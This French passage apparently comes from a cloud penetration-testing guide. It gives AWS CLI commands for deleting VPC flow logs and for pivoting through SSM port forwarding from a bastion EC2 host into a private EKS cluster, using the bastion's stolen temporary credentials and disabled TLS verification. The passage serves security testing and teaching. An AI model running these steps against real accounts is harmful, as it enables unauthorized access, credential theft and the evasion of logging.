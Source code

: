 ### Supprimer VPC flow logs
```bash
aws ec2 delete-flow-logs --flow-log-ids <flow_log_ids> --region <region>
```
### SSM Port Forwarding

Autorisations requises :

- `ssm:StartSession`

En plus de l'exécution de commandes, SSM permet le traffic tunneling, qui peut être abusé pour pivoting depuis des instances EC2 qui n'ont pas d'accès réseau en raison des Security Groups ou des NACLs.
Un des scénarios où cela est utile est le pivoting depuis un [Bastion Host](https://www.geeksforgeeks.org/what-is-aws-bastion-host/) vers un EKS cluster privé.

> Pour démarrer une session, vous devez avoir le SessionManagerPlugin installé : https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html

1. Installez le SessionManagerPlugin sur votre machine
2. Connectez-vous au Bastion EC2 en utilisant la commande suivante:
```shell
aws ssm start-session --target "$INSTANCE_ID"
```
3. Récupérez les temporary credentials AWS du Bastion EC2 avec le script [Abusing SSRF in AWS EC2 environment](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf.html#abusing-ssrf-in-aws-ec2-environment)
4. Transférez les credentials sur votre machine dans le fichier `$HOME/.aws/credentials` en tant que profil `[bastion-ec2]`
5. Connectez-vous à EKS en tant que Bastion EC2:
```shell
aws eks update-kubeconfig --profile bastion-ec2 --region <EKS-CLUSTER-REGION> --name <EKS-CLUSTER-NAME>
```
6. Mettre à jour le champ `server` dans le fichier `$HOME/.kube/config` pour qu'il pointe vers `https://localhost`
7. Créer un tunnel SSM comme suit :
```shell
sudo aws ssm start-session --target $INSTANCE_ID --document-name AWS-StartPortForwardingSessionToRemoteHost --parameters '{"host":["<TARGET-IP-OR-DOMAIN>"],"portNumber":["443"], "localPortNumber":["443"]}' --region <BASTION-INSTANCE-REGION>
```
8. Le trafic de l'outil `kubectl` est désormais acheminé via le tunnel SSM passant par le Bastion EC2 et vous pouvez accéder au cluster EKS privé depuis votre propre machine en exécutant :
```shell
kubectl get pods --insecure-skip-tls-verify
```
Notez que les connexions SSL échoueront à moins que vous ne configuriez le flag `--insecure-skip-tls-verify ` (ou son équivalent dans les outils d'audit K8s). Étant donné que le trafic est tunnelisé via le tunnel sécurisé AWS SSM, vous êtes à l'abri de toute forme d'attaques MitM.

Enfin, cette technique n'est pas spécifique aux attaques de clusters privés EKS. Vous pouvez définir des domaines et des ports arbitraires pour pivoter vers n'importe quel autre service AWS ou une application personnalisée.

---